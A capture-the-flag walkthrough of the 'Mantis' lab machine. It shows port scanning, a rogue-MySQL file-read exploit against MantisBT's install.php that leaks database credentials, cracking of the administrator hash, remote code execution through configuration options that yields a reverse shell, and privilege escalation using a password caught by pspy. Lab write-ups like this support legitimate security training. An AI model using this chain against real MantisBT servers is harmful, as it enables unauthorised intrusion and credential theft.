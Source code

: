# Mantis

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:54 +08
Nmap scan report for 192.168.201.204
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

I did a detailed scan on these ports:

```
$ sudo nmap -p 80,3306 -sC -sV --min-rate 4000 192.168.201.204     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:56 +08
Nmap scan report for 192.168.201.204
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Slick - Bootstrap 4 Template
3306/tcp open  mysql   MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: E!sB/b!zhxE.VGAOJd;9
|_  Auth Plugin Name: mysql_native_password
```

### Web Enumeration

Port 80 hosted a static page:

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` on this website, and it did find a few directories of interest:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.201.204/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.204/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/08 15:57:35 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 316] [--> http://192.168.201.204/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.201.204/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.201.204/fonts/]
/bugtracker           (Status: 301) [Size: 323] [--> http://192.168.201.204/bugtracker/]
```

`/bugtracker` looks interesting. It brought me to a login page stating that the admin directory is a security risk.&#x20;

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

I tried to access the `/admin` panel but it didn't work. I took a look at the Github repository for this software and tried to access the other files within the admin panel, which worked:

{% embed url="https://github.com/mantisbt/mantisbt" %}

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

At the bottom of the page, there are options to Upgrade the SQL database:

<figure><img src="../../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If we just click on the Install button without filling in any details, we are brought to another page:

<figure><img src="../../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

There's a configuration file mentioned at the bottom of the page, and it also shows that the web page is able to interact with the SQL instance.&#x20;

### Rogue MySQL LFI --> MySQL Creds

I did a lot more reading about `install.php` and the other components related to SQL (because SQL is publicly facing for some reason) of the admin panel and came across this CVE:

{% embed url="https://mantisbt.org/bugs/view.php?id=23173" %}

This involves using a Rogue SQL server to exploit an LFI:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php" %}

We just have to visit `install.php?install=3&hostname=192.168.45.191` to run it, and it works!

<figure><img src="../../../.gitbook/assets/image (157) (8).png" alt=""><figcaption></figcaption></figure>

We can use this to read the `config_inc.php` file mentioned earlier:

```
$ php sql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.201.204:47156 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.201.204:47156:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';
```

This grants us the MySQL creds, which we can use to login:

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

### Bugtracker Creds --> RCE

With access to the database, we can view the password of the administrator of the MantisBT instance.&#x20;

```
MariaDB [bugtracker]> select * from mantis_user_table;
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email             | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost    | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
|  2 | test123       |          | test123@gmail.com | 3a85acb13b850e7b8e2b53331becc726 |       1 |         0 |           25 |           0 |                           0 |                  1 | TORSv6oU4EXOyA4cqXXgBod5RJ3vY445ArdZ9uS795NfqWdsKib7OMQGfiMOUAbp | 1688803375 |   1688803375 |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
```

This hash can be cracked on CrackStation:

<figure><img src="../../../.gitbook/assets/image (151) (5).png" alt=""><figcaption></figcaption></figure>

Now, there are RCE exploits for this, but the one from `searchsploit` also abuses another exploit to do with password resetting for the administrator user.

First of all, that doesn't seem to work for this machine, and secondly, we already have the administrator password. In this case, I manually exploited the machine while using the PoC as a guideline.&#x20;

We can first login as the administrator:

<figure><img src="../../../.gitbook/assets/image (3) (5) (1).png" alt=""><figcaption></figcaption></figure>

Then, head to `/bugtracker/adm_config_report.php` and create the following Configuration Options:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Then, just visit `/bugtracker/workflow_graph_img.php`, and we will receive a reverse shell:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy Mantis Creds --> Root

We can grab the user flag from the user `mantis`. Afterwards, we can find some interesting files within their home directory:

```
www-data@mantis:/home/mantis/db_backups$ ls -la
total 52
drwxr-xr-x 2 mantis mantis  4096 Jan 30 16:15 .
drwxr-xr-x 3 mantis mantis  4096 May 17  2022 ..
-rw-rw-r-- 1 mantis mantis 37130 Jul  8 08:44 1652766150.sql
-rwx------ 1 mantis mantis   104 May 17  2022 backup.sh
```

The file was recently edited, so I ran `pspy64` on the machine to see what `backup.sh` was doing.

```
2023/07/08 08:46:01 CMD: UID=1000 PID=5746   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5745   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5747   | mysqldump -u bugtracker -pBugTracker007 bugtracker
```

There was a password present. Using that, we can `su` to `mantis`, who can run `sudo` on everything without a password.

<figure><img src="../../../.gitbook/assets/image (4) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!
